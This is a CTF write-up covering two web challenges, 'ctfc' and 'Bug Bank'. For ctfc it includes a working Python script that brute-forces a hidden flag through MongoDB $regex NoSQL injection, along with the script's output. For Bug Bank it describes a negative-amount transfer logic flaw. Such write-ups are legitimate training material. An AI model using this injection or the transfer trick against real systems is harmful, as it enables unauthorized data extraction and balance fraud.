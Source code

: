 # Web

## ctfc


### Info

![](screenshots/111.png)


![](screenshots/222.png)

## solution:

After analysing the code source we can know that there is another third challenge and it's not appearing in the dashboard:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)
```

also from the route /submit_flag we can see how submiting works and we can see the app using mongoDB:

```python
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

![](screenshots/333.png)

### NOSqli:
the first thing that comes in my mind after seeing mongoDB is trying noSQLinjection so i tried:

![](screenshots/444.png)

and yeah it worked so we are sure that it's noSQL injection.
so i tried to bruteforce the flag using `$regex` knwowing that the third challenge id is `id:3` and the flag format`INTIGRITI{`:

![](screenshots/555.png)

Now we have to write a script to automate the brute force and here the one i used:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

url = 'https://ctfc.ctf.intigriti.io/submit_flag'
headers = {
    'Host': 'ctfc.ctf.intigriti.io',
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImM0NGZkY2UyMDNiYzRiNjNhZjFhODQwMzI1Y2Y5NDA3IiwidXNlcm5hbWUiOiJ0ZWVzdCJ9fQ.ZV9gtA.QuLDFuq4rwWGeAdNfFV424ivlS4',
    'Content-Length': '59',
    'Sec-Ch-Ua': '"Chromium";v="103", ".Not/A)Brand";v="99"',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Sec-Ch-Ua-Platform': '"Linux"',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
}

_id="_id:3"
challenge_flag=""

while True:
    for c in "abcdefghtijklmopqrsuvwyzABCDEFGHIJKLMNOPQRSTUVYWZ0123456789_}":
            payload='{"_id":"%s", "challenge_flag": {"$regex": "^INTIGRITI{%s" }}' % (_id, challenge_flag + c)
            r = requests.post(url,headers=headers,data=payload, verify = False)
            if 'correct flag' in r.text:
                challenge_flag += c
                print("INTIGRITI{"+challenge_flag)
```
and we got it:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/web-writeup]
└─$ python3 sol.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

##  Bug Bank 


### Info

![](screenshots/666.png)


![](screenshots/3333.png)

this one i solved it after the ctf ended 
at first i was trying some things related to graphQL and for some reasons i reached nothing:

![](screenshots/4444.png)

until i tried randomly transfering random numbers till i got something (unintended solution but please check intigrity official writeups for the intended one)  :

## solution:
first u need to create two accounts:
![](screenshots/777.png)

![](screenshots/888.png)

then send negative amount from account to another we notice that the server logic try to take the amount from u like:

`ur_bugs = ur_bugs - transfered_bugs
so when transfered_bugs is negative we got
ur_bugs = ur_bugs - (-transfered_bugs)
`

![](screenshots/999.png)

![](screenshots/5555.png)

then we can get the flag easily:
![](screenshots/1111.png)

![](screenshots/2222.png)


